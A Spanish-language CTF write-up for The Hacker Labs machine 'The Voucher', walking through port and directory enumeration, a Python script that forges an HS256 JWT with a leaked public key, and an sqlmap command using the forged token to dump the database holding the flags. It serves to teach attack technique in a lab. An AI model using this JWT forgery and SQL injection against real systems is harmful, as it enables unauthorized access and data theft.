 # 🖥️ Write-Up: [THE VOUCHER](https://labs.thehackerslabs.com/machine/134)

## 📌 Información General
    - Nombre de la máquina: The Voucher
    - Plataforma: The Hacker Labs
    - Dificultad: Avanzado
    - Creador: K0B4KS
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

La máquina The Voucher posee la IP 10.0.5.17.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos **22**, **80** y **8080**, así que vamos a proceder a realizar un escaneo de los servicios y las versiones de ellos que se encuentran en ejecución en esos puestos.

![target](screenshots/target.png)

Como no disponemos de credenciales y el puerto 22 no es vulnerable, vamos a proceder con el análisis de los puertos 80 y 8080.


### Puerto 80

Nos encontramos con la página por defecto de Apache. Tras buscar subdirectorios y revisar el código fuente no encontramos nada.

Así que pasamos al siguiente puerto.

### Puerto 8080

Aquí vemos la web de una academia de ciberseguridad. Tras revisarla, vemos que tenemos un index, un panel de login (login.php) y un panel de búsqueda de cursos (courses.php).

![home](screenshots/home.png)

Vamos a revisar el panel de búsqueda de cursos. Este nos exige un token para poder realizar la búsqueda, como no disponemos de uno, vamos a probar el panel de login.

![courses](screenshots/courses.png)

Tras intentar diferentes técnicas de bypass, sql injections, nosql injections,... en el panel de login, no hemos obtenido ningún resultado. Por lo tanto, vamos a utilizar la herramienta de wfuzz para enumerar subdirectorios de la web.

![subdirectorios](screenshots/directorio-keys.png)

Hemos encontrado un directorio **/keys**, por su nombre, es posible que contenga algún tipo de llave, con esta idea en mente realizamos una enumeración de archivos en su interior con las extensiones de pem, pub, cert.

![files in keys](screenshots/public_keys.png)

Y como resultado de la búsqueda obtenemos un archivo **public.pem**, así que procedemos a ingresar en nuestro navegador la url `http://10.0.5.17:8080/keys/public.pem` para descargarlo, una vez hecho vemos que el archivo contiene una llave pública.


## 🔥Explotación

Con este llave vamos a intentar falsificar un Json Web Token esperando que el servidor esté mal configurado y únicamente firme el token con la llave pública que hemos encontrado. 

Para ello, usamos el siguiente script de python3: 

```python
import json, base64, hmac, hashlib

# Functions
def b64url_encode(data):
    s = base64.urlsafe_b64encode(data).rstrip(b"=")
    return s.decode("ascii")

def b64url_encode_json(obj):
    j = json.dumps(obj, separators=(',', ':'), sort_keys=True)
    return b64url_encode(j.encode('utf-8'))

def hmac_sha256(key, msg):
    return hmac.new(key, msg, hashlib.sha256).digest()

def build_token(header_obj, payload_obj, key_bytes):
    encoded_header = b64url_encode_json(header_obj)
    encoded_payload = b64url_encode_json(payload_obj)
    signing_input = (encoded_header + "." + encoded_payload).encode('ascii')
    sig = hmac_sha256(key_bytes, signing_input)
    encoded_sig = b64url_encode(sig)
    return f"{encoded_header}.{encoded_payload}.{encoded_sig}"


# Open public.pem
with open("public.pem", "rb") as file:
        key_bytes=file.read()

# Create JWT
header = {"alg": "HS256", "typ": "JWT"}

payload = {"username": "admin"},

token= build_token(header,payload, key_bytes)

print("Token--> " + token)
```

Este script nos devuelve este token --> **eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY**

Ahora vamos a probar el token. Pero antes, revisamos el código fuente de courses.php para ver como y hacia donde se tramita la petición, ya que su función de búsqueda nos exigía un token.

![source](screenshots/api-courses.png)

Vemos que la petición se tramita mediante el método **GET** a **/api/courses.php** y le pasa el parámetro "**q**", así que vamos a usar curl para mandarle una petición a ese endpoint con el token generado y ver la respuesta.

![curl](screenshots/curl-courses.png)

El token funciona. Además, observamos un **sql_errors** en el json de la respuesta, así que podemos intentar poner una comilla al final del parámetro para ver su comportamiento y verificar si es vulnerable a una **SQL Injection**.

![slq_error](screenshots/curl-error_sql.png)

Y efectivamente, parece ser vulnerable. Por lo tanto, vamos a proceder a automatizar la inyección usando la herramienta de sqlmap sobre ese endpoint y pasándole el token generado.

```bash
sqlmap --url "http://10.0.5.17:8080/api/courses.php?q=1" --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY" --dump --batch 
```

Tras filtrarnos la base de datos, podemos ver que las **flags de usuario** y de **root** están en una tabla.

![flags](screenshots/flags.png)
